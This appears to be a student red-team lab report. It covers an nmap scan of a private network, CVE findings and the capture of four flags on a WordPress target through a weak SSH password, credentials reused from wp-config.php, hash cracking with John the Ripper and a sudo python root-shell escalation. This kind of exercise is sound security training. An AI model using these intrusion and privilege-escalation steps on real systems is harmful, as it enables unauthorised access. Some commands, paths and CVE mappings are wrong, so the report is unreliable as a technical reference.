




# Red Team: Summary of Operations

## Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ #nmap -sV -sS 192.168.1.0/24 -oN scanresult.txt
Nmap scan report for 192.168.1.1
Host is up (0.00058s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.00080s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00077s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.00080s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.000017s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 17 22:19:17 2021 -- 256 IP addresses (6 hosts up) scanned in 28.45 seconds
```

This scan identifies the services below as potential points of entry:

- Target 1
```bash
PORT     STATE SERVICE       REASON          VERSION
135/tcp  open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 128
2179/tcp open  vmrdp?        syn-ack ttl 128
3389/tcp open  ms-wbt-server syn-ack ttl 128 Microsoft Terminal Services
```


The following vulnerabilities were identified on each target:

- Target 1
  - CVE-2008-5161 : SSH remote login was enabled at the user level with port 22 open.
  - CVE-2019-12215 : Full Path Disclosure
  - CVE-2019-15653 : HTML password disclosure – The password was viewable 192.168.1.110/service.html)
  - CVE-2017-7760 : exposed username which enabled password brute force possibility

[Target1 -Vulnerability Scan](target1vulnscan.md)

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - User identified and access to system via SSH gained due to password being weak (same as login name). Search for first flag after access gained:
      - ``` $sh user@ip address ```
      - ``` $locate flag ```
      - ``` $cat www/var/html/service.html | grep 'flag' ```
      
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - User password used to access system via SSH and flag2 found in Wordpress directory.
      - ``` $sh user@ip address ```
      - ``` $locate flag ```
      - ``` cat www/var/flag2.txt ```
      
  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Exploit of MySQL database using password found in ```wp-config.php``` located on exploited user account. Found in ```/var/www/html```
      
  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - User password hashes located in ```wp_users``` sql database and cracked using John The Ripper.
      - Access gained but privilege escalation required in order to search for flag. 
      - ```sudo -l``` used to determine available binaries - Python appeared to be available.
      - GTFOBins used to find and use command: ```$sudo python -c 'import os; os.system("/bin/sh")```
      - Root level access gained and search for flag4 lead to root directory location.
      

